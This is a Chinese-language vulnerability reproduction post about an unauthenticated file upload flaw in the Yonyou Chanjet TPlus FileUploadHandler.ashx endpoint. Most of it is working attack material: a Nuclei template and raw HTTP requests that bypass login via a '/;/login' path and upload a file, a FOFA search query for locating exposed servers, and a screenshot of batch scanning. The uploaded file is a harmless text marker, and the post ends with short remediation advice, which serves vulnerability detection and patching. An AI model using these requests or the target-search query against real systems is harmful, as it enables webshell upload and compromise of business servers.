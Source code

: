 #  用友畅捷通-TPlus系统FileUploadHandler.ashx接口处存在文件上传漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-11-21 00:30  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
用友畅捷通-TPlus系统FileUploadHandler.ashx接口处存在文件上传漏洞。  
攻击者可通过上传包含恶意代码的文件到服务器，使恶意文件被执行，从而导致系统被入侵或遭受其他安全风险。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: yongyou-changjietong-FileUploadHandler_ashx-fileupload

info:
  name: 用友畅捷通-TPlus系统FileUploadHandler.ashx接口处存在任意文件上传漏洞

  author: kingkong
  severity: high
  metadata:
    fofa-query: app="畅捷通-TPlus"
  reference:
    - https://mp.weixin.qq.com/s/k-F3dn3dVy45dXHVBROCjg
    - https://mp.weixin.qq.com/s/jAZ7AQShvTOr7RihTQwkZQ


http:
  - raw:
      - |
        POST /tplus/SM/SetupAccount/FileUploadHandler.ashx/;/login HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
        Accept-Encoding: gzip, deflate
        Accept: */*
        Connection: close
        Content-Length: 180
        Content-Type: multipart/form-data; boundary=f95ec6be8c3acff8e3edd3d910d3b9a6

        --f95ec6be8c3acff8e3edd3d910d3b9a6
        Content-Disposition: form-data; name="file"; filename="test123.txt"
        Content-Type: image/jpeg

        test123
        --f95ec6be8c3acff8e3edd3d910d3b9a6--


      - |
        GET /tplus/UserFiles/test123.txt HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'status_code_2 == 200'
              - 'contains(body_2,"test123")'
        condition: and


```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：app="畅捷通-TPlus"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187tnNiaYzQb6gspjeMUC7tmXZqFhzM4lDARO9RRDK2w9ppmn2lHNnUE4g/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187Xl5ibZicdJHFtyjPA37rWyT4WGns8WKfRA7l77vHb4y0ibdzmGhPCjr4w/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187j4eTRUrDicts16wpDJ8OYxKiaTb6HIz7VdFUWaQAX9Cr71Fic38d7OBUg/640?wx_fmt=png&from=appmsg "")  
  
访问验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j18769RDGDB7IfljXyezo97xJ4hczRgGNljgNTxOZuqAkKs24qQRfl6rGg/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
POST /tplus/SM/SetupAccount/FileUploadHandler.ashx/;/login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 178
Content-Type: multipart/form-data; boundary=f95ec6be8c3acff8e3edd3d910d3b9a6

--f95ec6be8c3acff8e3edd3d910d3b9a6
Content-Disposition: form-data; name="file"; filename="test123.txt"
Content-Type: image/jpeg

test123
--f95ec6be8c3acff8e3edd3d910d3b9a6--


GET /tplus/UserFiles/test123.txt HTTP/1.1
Host: 
```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187a6BibAyL4ibh8x4gU9ich09J8KyBoLRhQPeeAFlvsUD2YpIGYaMeiamp5A/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、文件类型验证：仅允许上传特定类型的文件，例如图像、文档等，并拒绝可执行文件或其他潜在的恶意文件类型。  
  
2、文件大小限制：限制上传文件的大小，以防止恶意用户上传过大的文件导致服务器资源耗尽。  
  
3、文件名处理：对上传的文件进行重命名，避免使用用户提供的文件名，以防止路径遍历攻击。  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  
  
